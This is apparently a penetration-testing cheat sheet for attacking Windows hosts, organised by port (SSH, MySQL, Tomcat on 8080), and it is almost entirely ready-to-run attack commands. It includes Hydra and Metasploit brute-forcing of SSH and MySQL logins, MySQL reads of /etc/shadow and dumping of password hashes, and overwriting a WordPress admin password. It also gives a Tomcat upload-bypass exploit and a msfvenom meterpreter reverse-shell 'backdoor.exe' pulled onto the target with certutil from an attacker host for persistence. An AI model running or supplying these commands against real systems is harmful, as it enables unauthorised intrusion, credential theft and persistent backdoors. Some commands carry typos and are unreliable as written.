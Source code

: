 # Windows - Enum/Exploitation

## 22 - OpenSSH

<pre><code># CHECK THE VERSION
<strong>searchsploit openssh VERSION
</strong></code></pre>

<pre class="language-bash" data-full-width="false"><code class="lang-bash"><strong># Nmap enum
</strong>nmap -sV -sC -p 22 IP

# Search exploit for current version
searchspoilt OpenSSH 7.1

# Hydra SSH Brute-forcing
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt IP ssh -I
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt IP ssh -I
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt IP ssh -I

# SSH connection with creds
ssh USER@IP
PASS

</code></pre>

{% code title="Metasploit SSH enumeration" %}
```bash
service postgresql start && msfconsole

search type:auxiliary name:ssh

use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/ssh/ssh_enumusers
use auxiliary/scanner/ssh/ssh_login

set RHOSTS IP
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```
{% endcode %}





## 80/443 - HTTP/S

{% content-ref url="../web/" %}
[web](../web/)
{% endcontent-ref %}



## 389 - LDAP

{% content-ref url="../../../active-directory-pt/ad-enumeration/ldap.md" %}
[ldap.md](../../../active-directory-pt/ad-enumeration/ldap.md)
{% endcontent-ref %}





## 445  - SMB

{% content-ref url="port-445-smb.md" %}
[port-445-smb.md](port-445-smb.md)
{% endcontent-ref %}



## 1433 - MSSQL Database

{% content-ref url="port-1433-mssql.md" %}
[port-1433-mssql.md](port-1433-mssql.md)
{% endcontent-ref %}



## 3306 - MySQL Database

```
# CHECK THE VERSION
searchsploit mysql VERSION
```

```bash
# Nmap
nmap -sC -sV -p 3306 IP
nmap --script=mysql-empty-password -p 3306 IP
nmap --script=mysql-info -p 3306 IP

# w/ creds
nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 IP
nmap --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" -p 3306 IP
nmap --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" -p 3306 IP
nmap --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" -p 3306 IP
nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p 3306 IP
nmap --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''" -p 3306 IP

# Search exploit for current version
searchspoilt MySQL 5.5
```

### DB connection

<pre class="language-bash"><code class="lang-bash"><strong># MySQL connection
</strong>mysql -u USER -p PASS -h IP

# MySQL commands
show databases;
use DB_NAME;
show tables;
select * from TABLE_NAME
select load_file("/etc/shadow");

# Database creds location
## Server php
PATH/TO/wp-config.php
</code></pre>

```bash
# Hydra MySQL Brute-forcing
hydra -l USER -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt IP mysql
```



{% code title="Metasploit" %}
```bash
## Start msfconsole
service postgresql start && msfconsole

# ENUM MySQL Modules
use auxiliary/scanner/mysql/mysql_schemadump
use auxiliary/scanner/mysql/mysql_writable_dirs
use auxiliary/scanner/mysql/mysql_file_enum
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login

## set options depends on the selected module
set USERNAME root
set PASSWORD ""

set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE false
set PASSWORD ""

set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
set PASSWORD ""

set USER_FILE /root/Desktop/wordlist/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true

set CMD whoami
exploit
```
{% endcode %}

{% code title="Explotation" %}
```bash
# once we are in a db
# search user table
show databases;
use wordpress; # use speific db
show tables; # view tables
select * from wp_users; # print table data

# look the format of password (md5, sha256, ...)
# update password of admin user
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';


```
{% endcode %}





## 8080

```
# CHECK THE VERSION
searchsploit SERVICE VERSION
```

### Apache Tomcat 8.5.19

```bash
service postgresql start && msconsole

use exploit/multi/http/tomcat_jsp_upload_bypass
set RHOST
set payload java/jsp_shell_bind_tcp
set SHELL cmd
run
```

#### Persistence payload

```bash
# create payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > backdoor.exe

# transfer payload
python -m SimpleHTTP 80 # attack machine
certutil -urlcache -f http://IP_ATT/backdoor.exe backdoor.exe # target machine

# set handler
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST IP
set LPORT PORT
run

# execute payload on target machine
.\backdoor.exe
```
